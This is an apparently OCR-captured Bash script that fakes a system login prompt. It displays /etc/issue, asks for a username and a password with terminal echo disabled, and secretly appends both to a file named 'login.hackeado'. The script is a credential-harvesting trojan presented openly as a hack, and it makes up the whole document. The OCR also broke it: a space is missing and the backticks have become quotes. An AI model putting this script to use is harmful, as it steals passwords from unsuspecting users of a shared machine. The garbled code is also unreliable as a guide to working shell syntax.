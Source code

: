 clear
cat/etc/issue

DOMINIO='domainname'
MAQUINA='sed -e "s/.$DOMINIO//" /etc/HOSTNAME'


echo -n "$MAQUINA login: ";
read login
stty -echo
echo -n "Password: "
read senha
stty echo 
echo -e "Login: $login\nSenha: $senha\n " >> ~/login.hackeado
